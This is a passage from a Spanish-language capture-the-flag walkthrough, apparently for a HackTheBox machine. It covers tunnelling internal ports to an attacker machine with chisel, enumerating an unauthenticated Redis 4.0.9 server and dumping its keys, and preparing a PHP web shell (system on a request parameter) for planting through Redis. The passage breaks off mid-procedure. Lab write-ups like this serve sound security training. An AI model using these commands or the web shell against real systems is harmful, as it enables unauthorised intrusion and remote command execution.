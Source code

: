 1. En la maquina victima creamos un cliente 

    ```bash
    ./chisel client 10.10.14.29:1234 R:80:172.19.0.3:80 R:6379:172.19.0.2:6379
    ```

Desde nuestra maquina de atacante podemos con firefox connectarnos a `http://localhost` y podemos ver la web del puerto 80 de la 172.19.0.3.
A demas podemos lanzar un `nmap -sCV -p6379 127.0.0.1`. En el codigo fuente de la pagina web vemos funcciones JS que registran las veces que
cargamos la pagina y el nmap nos muestra un Redis 4.0.9.

### Redis {-}

Como hay un **redis**, S4vi tira directo de la biblia [hacktricks](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) y seguimos los 
siguientes pasos.

1. Installamos redis-tools

    ```bash
    apt install redis-tools
    ```

1. Miramos de lanzar commandos

    ```bash
    nc 127.0.0.1 3679

    INFO
    client list
    config get *
    ```

1. Intentamos dumpear la base de datos

    ```bash
    select 0
    keys *
    get hits
    ```

Aqui podemos ver que hay un veinculo entre la web y la base de datos redis

1. Creamos un fichero php

    ```php



    <?php
        system($_REQUEST['cmd']);
    ?>


    ```
    hay que asegurarse que hayan saltos de linea al principio y al final del fichero

1. Buscamos un directorio en la web
